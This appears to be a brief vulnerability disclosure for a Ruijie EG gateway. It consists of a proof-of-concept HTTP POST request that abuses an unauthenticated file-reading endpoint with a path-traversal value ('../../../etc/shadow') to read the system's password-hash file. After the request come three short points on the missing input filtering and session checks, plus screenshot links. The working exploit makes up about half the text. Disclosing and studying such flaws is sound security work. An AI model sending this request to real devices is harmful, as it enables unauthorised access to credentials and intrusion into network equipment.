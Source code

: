 **Ruijie-EG gateway has a foreground arbitrary file reading vulnerability**

official website:https://www.ruijie.com.cn/

POC
```
POST /local/auth/php/getCfile.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

cf=../../../etc/shadow
```

vulnerability analysis

1.cf parameters are carried directly into the function without filtering, resulting in arbitrary file read vulnerabilities

2, path /tmp/app_auth/cfile/ path concatenation into the variable cf, can be through.. / Does directory bypass

3. No session or token verification is performed, resulting in any file reading vulnerability in the foreground
4. 
![image](https://user-images.githubusercontent.com/129963609/230249232-a2c76b90-9fc7-4191-ba31-c4b8c14ce54e.png)

The bug reappears

![image](https://user-images.githubusercontent.com/129963609/230249639-f44a0d17-6d44-4854-8dd5-dc83277cf00d.png)






